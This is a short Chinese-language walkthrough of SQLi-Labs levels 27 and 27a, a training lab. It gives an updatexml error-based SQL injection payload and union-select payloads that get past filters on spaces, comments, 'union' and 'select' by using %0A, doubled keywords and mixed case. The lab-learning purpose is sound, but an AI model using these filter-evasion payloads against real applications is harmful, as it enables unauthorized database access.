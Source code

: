 ## 第二十七关-空格、注释、unionselect

可以直接报错注入：

1'and (updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)) or '1'='1

![image-20240405162938110](PictureFile/SqliLabs通关.assets/image-20240405162938110.png)

多尝试几次之后发现，本关有以下过滤：

1、过滤空格，可以用%0A绕过

2、过滤union，可以用双写绕过

3、过滤select，可以大写某些字母绕过

4、过滤注释符，绕不过，可以用and '1'='1替代

999'%0Aununionion%0ASELect%0A4,2,3%0Aand%0A'1'='1

![image-20240405163322152](PictureFile/SqliLabs通关.assets/image-20240405163322152.png)

## 第二十七关a

同上一关，闭合变成了双引号

999"%0Aununionion%0ASELect%0A4,2,3%0Aand%0A"1"="1
